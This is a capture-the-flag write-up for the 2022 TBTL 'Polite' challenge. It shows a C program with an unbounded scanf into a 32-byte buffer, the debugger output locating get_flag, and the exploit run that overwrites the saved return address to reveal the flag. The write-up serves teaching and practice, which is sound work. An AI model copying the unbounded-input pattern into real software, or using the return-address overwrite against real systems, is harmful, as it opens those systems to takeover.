 # 2022 TBTL - Polite

Standard pwn ctf challenge where buffer overflow overwrites the stored RIP value with a function address causing the execution to jump to the mentioned function after the current one returns.

We got the code:
```c
#include <stdio.h>

void get_flag() {
    printf("Oh no :(, my program is not secured: TBTL{REDACTED}\n");
}

int main() {
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);
    char input[32];
    printf("Please ask me for the flag: ");
    scanf("%s", input);
    printf("Not so easy!\n");
    return 0;
}
```

What we need now is the address of `get_flag` and since `scanf` is used to read the input we can easily overflow the 32-byte buffer and overwrite both RBP and RIP registers to reroute execution to `get_flag`. The address of get_flag:
```
pwndbg> info func
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401070  puts@plt
0x0000000000401080  setbuf@plt
0x0000000000401090  printf@plt
0x00000000004010a0  __isoc99_scanf@plt
0x00000000004010b0  _start
0x00000000004010e0  _dl_relocate_static_pie
0x00000000004010f0  deregister_tm_clones
0x0000000000401120  register_tm_clones
0x0000000000401160  __do_global_dtors_aux
0x0000000000401190  frame_dummy
0x0000000000401196  get_flag			; it's here
0x00000000004011ad  main
0x0000000000401220  __libc_csu_init
0x0000000000401290  __libc_csu_fini
0x0000000000401298  _fini
```

And our working exploit which enters 32 bytes of garbage, 8-byte base pointer register and RIP set to value of `0x401196`:
```
$ python3 solve_2022_tbtl_polite.py 
[+] Opening connection to 0.cloud.chals.io on port 27702: Done
[*] Switching to interactive mode
Not so easy!
Oh no :(, my program is not secured: TBTL{M457ER_of_4Dre553s}
[*] Got EOF while reading in interactive
```

Solution code is in `solve_2022_tbtl_polite.py`
